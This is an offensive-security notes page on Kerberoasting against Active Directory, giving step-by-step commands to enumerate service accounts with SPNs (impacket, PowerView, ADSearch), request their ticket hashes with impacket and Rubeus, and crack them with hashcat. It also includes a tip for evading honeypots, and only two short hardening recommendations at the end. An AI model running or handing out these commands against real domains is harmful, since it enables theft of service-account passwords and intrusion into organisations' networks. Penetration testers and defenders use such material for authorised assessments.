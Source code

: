 # Kerberoasting
---

## Vulnerability

This attack focuses on domain service accounts that have a Service Principal Name (SPN) associated. With this attribute, it’s possible to legitimately request a Kerberos Ticket Granting Service (TGS) as an authenticated user on the domain.

Kerberos service tickets contain a key used by the protocol to encrypt the session. This key is encrypted with the service account’s password hash. Kerberoasting consist in cracking the hash of the service account.

## Prerequisites

- Low privileged domain account.
- Target must be a domain account with a Service Principal Name (SPN) associated.

## Exploit

First, identify a domain user with a SPN. You can list Kerberoastable users in multiple ways like below.

```bash
# From Kali.
sudo impacket-GetUserSPNs -dc-ip $dc_ip $domain/$username:$password

# From a domain joined computer with PowerView.
Get-NetUser -SPN

# From a domain joined computer with ActiveDirectory PowerShell module.
Get-ADUSer -Filter { ServicePrincipalName -ne "$null" } -Properties ServicePrincipalName

# With ADSearch.
ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName
```

Following commands will request a TGS-REP for **all Kerberoastable accounts**. Hashes are then stored into the specified output file.

```bash
# From Kali.
sudo impacket-GetUserSPNs -request -dc-ip $dc_ip $domain/$username:$password

# From a domain joined computer.
.\Rubeus.exe kerberoast /outfile:kerberoast.out

# From a Windows computer not joined to the domain.
.\Rubeus.exe kerberoast /creduser:$domain\$username /credpassword:$password /domain:$domain /dc:$dc_ip /outfile:kerberost.out
```

{: .warning }
> If you want to be more stealthy and avoid honey pots, request one user at the time. For instance, with `Rubeus`, add `/user:$target` option.


Then, use `hashcat` to crack retrieved TGS-REP hashes.

```bash
sudo hashcat -m 13100 kerberoast.out /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## Recommendations

- [ ]  Remove Service Principal Name (SPN) from domain users when it’s possible.
- [ ]  If removing SPN is not possible, enforce strong password for involved domain users so it makes it hard - even impossible - to crack them.